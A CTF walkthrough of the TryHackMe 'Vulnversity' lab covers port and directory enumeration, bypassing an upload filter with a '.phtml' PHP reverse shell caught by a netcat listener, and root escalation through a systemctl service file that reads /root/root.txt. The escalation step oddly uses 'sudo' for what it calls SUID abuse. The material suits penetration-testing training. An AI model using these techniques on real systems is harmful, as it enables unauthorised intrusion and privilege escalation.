








# 🔓 TryHackMe Lab Walkthrough – Vulnversity  

## 📌 Introduction  
This project is part of the **Offensive Pentesting Path** on [TryHackMe](https://tryhackme.com).  
The lab we are working on is **Vulnversity**, a beginner-friendly CTF room focused on web vulnerabilities, privilege escalation, and enumeration.  

For this walkthrough, I am using **Kali Linux on VirtualBox**.  
- Connection to the TryHackMe network is done via **OpenVPN**.  
- Alternatively, you can use the **AttackBox** (browser-based Kali provided by THM), which is already connected to the lab environment.  

---

## 🚀 Step 1: Deploying the Target Machine  
The first step is to deploy the vulnerable machine provided by TryHackMe.  

- Start the machine from the THM portal.  
- Wait **1 minute** for the target IP to appear.  
- Allow **4–5 minutes** for the machine to fully boot.  

📷 **Screenshot:**  
  


## 🔎 Step 2: Enumeration with Nmap  
After the target machine was up, I conducted an **Nmap scan** to identify open ports and running services.  
I used the `-A` flag since it provides OS detection, service versions, and script scanning in one command.  

```bash
sudo nmap -A 10.10.68.23
```
📷 **Screenshot:**


Results from the scan:

Port 21/tcp → FTP (vsftpd 3.0.3)

Port 22/tcp → SSH (OpenSSH 7.2p2)

Port 139, 445/tcp → SMB service running

Port 3128/tcp → Squid HTTP proxy

Port 3333/tcp → Apache web server (Vuln University)

👉 The web server on port 3333 stands out as a potential entry point for exploitation.


## 🌐 Step 3: Initial Web Enumeration  

After identifying that **port 3333** was running an Apache web server, I visited the site in my browser:  

📷 **Screenshot:**  
  

The website displayed a landing page for "Vuln University."  

At first glance, there were no visible vulnerabilities on the main page.  
However, I suspected that hidden directories or files might exist, which could potentially expose sensitive information or lead to exploitation.  


## 🔍 Step 4: Directory Bruteforcing  

To identify hidden directories on the Apache server running on port **3333**, I performed a **Gobuster directory scan** using the `common.txt` wordlist from Seclists.  

### Command Used:
```bash
gobuster dir -u http://10.10.68.23:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```


The scan results showed the following directories/files:  

- `.htpasswd` → **403 Forbidden**  
- `.htaccess` → **403 Forbidden**  
- `.hta` → **403 Forbidden**  
- `/css` → **301 Redirect**  
- `/fonts` → **301 Redirect**  
- `/images` → **301 Redirect**  
- `/index.html` → **200 OK**  
- `/internal` → **301 Redirect**  
- `/js` → **301 Redirect**  
- `/server-status` → **403 Forbidden**  

📷 **Screenshot:**  
  

After manually visiting the directories, I discovered that the **`/internal` directory** exposed an **upload functionality**.  


## 🛠 Step 5: Discovering File Upload Restrictions  

After accessing the **`/internal`** directory, I found an **upload page**.  

📷 **Screenshot:**  
  

I attempted to upload a **PHP reverse shell** payload (`rev.php`).  
However, the application **rejected the file format**, indicating that PHP files are not allowed.  

This shows that the upload functionality has **file type restrictions** in place.  
➡️ The next step will be to identify which file formats are supported.  


## 🛠 Step 6: Capturing the File Upload Request with BurpSuite  

To analyze the file upload restriction, I configured **FoxyProxy** to redirect traffic through **BurpSuite** on port `8080`.  

- Opened BurpSuite and enabled **Proxy → Intercept ON**.  
- Went back to the web application and attempted to upload the **PHP reverse shell file** again.  
- BurpSuite successfully captured the HTTP request of the file upload.  

📷 **Screenshot:**  
  

The intercepted request clearly shows the payload:  

```http
POST /internal/index.php HTTP/1.1
Host: 10.10.68.23:3333
Content-Disposition: form-data; name="file"; filename="rev.php"
Content-Type: application/x-php
```

From this request, I confirmed that the application is filtering uploads based on **file extension** and/or **MIME type**.  
➡️ The next step is to test alternate file extensions to bypass this restriction.  


## 🛠 Step 7: Bypassing File Upload Restriction with BurpSuite Intruder  

To bypass the file upload filter, I used **BurpSuite Intruder** to brute-force common PHP extensions.  

### Process:
1. Captured the file upload request in Burp and sent it to **Intruder**.  
2. Selected the filetype parameter (`php`) and marked it with **§**.  
3. Added the following file types in file type section:  
   ```
   php
   php1
   php2
   php5
   phtml
   ```
4. Ran the **Sniper attack** to test each extension.  

### 📷 Screenshot:  
  

### 🔑 Findings:
- `.php`, `.php1`, `.php2`, and `.php5` → Blocked.  
- ✅ `.phtml` → Successfully uploaded with **200 OK** and `Success` message.  

➡️ This confirmed that `.phtml` is an **allowed extension** on the server, enabling us to upload a malicious reverse shell for exploitation.  


## 🛠 Step 8: Uploading Reverse Shell and Gaining Foothold  

After identifying that `.phtml` files are allowed, I prepared a reverse shell.  

### 1️⃣ Creating the Reverse Shell File  
I copied the PHP reverse shell contents from `rev.php` into a new file named `rev.phtml`:  

```bash
cp rev.php rev.phtml
```

### 2️⃣ Uploading the Reverse Shell  
- Uploaded `rev.phtml` through the vulnerable upload form.  
- The upload was successful (validated earlier with BurpSuite Intruder).  

### 3️⃣ Starting Netcat Listener  
On a separate terminal, I started a listener to catch the reverse shell:  

```bash
nc -lvnp 1234
```

### 4️⃣ Locating the Uploaded File  
To identify where the uploaded file was stored, I performed another directory brute-force against the `/internal/` path.  
- Found that the file was saved under:  

```
/internal/uploads/
```

### 5️⃣ Executing the Reverse Shell  
I accessed the uploaded file in the browser:  

```
http://10.10.68.23:3333/internal/uploads/rev.phtml
```

📷 **Screenshot**



## 🛠 Step 9: Capturing the User Flag  

### 1️⃣ Navigating to Home Directory  
After uploading and clicking the malicious payload, our Netcat listener successfully received a reverse shell connection,confirming remote access to the target system.
📷 **Screenshot**


After gaining the reverse shell, I explored the directories to locate potential flags.  

```bash
cd /home
ls
```
 

### 2️⃣ Identifying User Directory  
I found a directory named `bill`, which is likely a user account.  

```bash
cd bill
ls
```
 

### 3️⃣ Locating `user.txt`  
Inside the `bill` directory, there was a file named `user.txt`.  

```bash
cat user.txt
```

📷 **Screenshot**
  

### ✅ Result  
The contents of `user.txt` revealed the **User Flag**.  


## 🛠 Step 10: Privilege Escalation and Capturing the Root Flag  

Now that we have the **User Flag**, the next step is to escalate privileges to obtain the **Root Flag**.  

### 1️⃣ Understanding SUID  
In Linux, **SUID (Set User ID)** is a special permission assigned to files.  
- It allows users to execute a file with the permissions of the file owner (often root).  
- For example, `/usr/bin/passwd` has the SUID bit set because changing a password requires writing to system files owned by root.  

### 2️⃣ Searching for SUID Files  
I searched the system for all binaries owned by root with the SUID bit set using the following command:  

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```  

📷 **Screenshot**



### 3️⃣ Identifying Exploitable Binary  
From the results, I found:  

```
/bin/systemctl
```  

This binary can be abused to escalate privileges.  

### ✅ Result  
We identified `systemctl` as a potential path to gain **root access**.  


## 🛠 Step 11: Privilege Escalation (systemctl SUID via GTFOBins)

Now that we have the user flag, the goal is to escalate to **root**.  
I searched for SUID binaries and found `/bin/systemctl`. Using GTFOBins, `systemctl` can be abused to run a systemd service with root privileges.

### 1️⃣ Create a temporary service file
The following creates a temporary service file (`$TF`) that will run as root and write the contents of `/root/root.txt` to `/tmp/output`:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```
2️⃣ Link & enable the service

Execute the service with systemctl:
```bash
sudo systemctl link $TF
sudo systemctl enable --now $TF
```


📷 **Screenshot**


3️⃣ Retrieve the root flag

Once the service is executed, check the /tmp/output file for the root flag:

```bash
cat /tmp/output
```


📷 **Screenshot**



✅ Result

The modified systemctl payload successfully escalated privileges to root and captured the root flag.


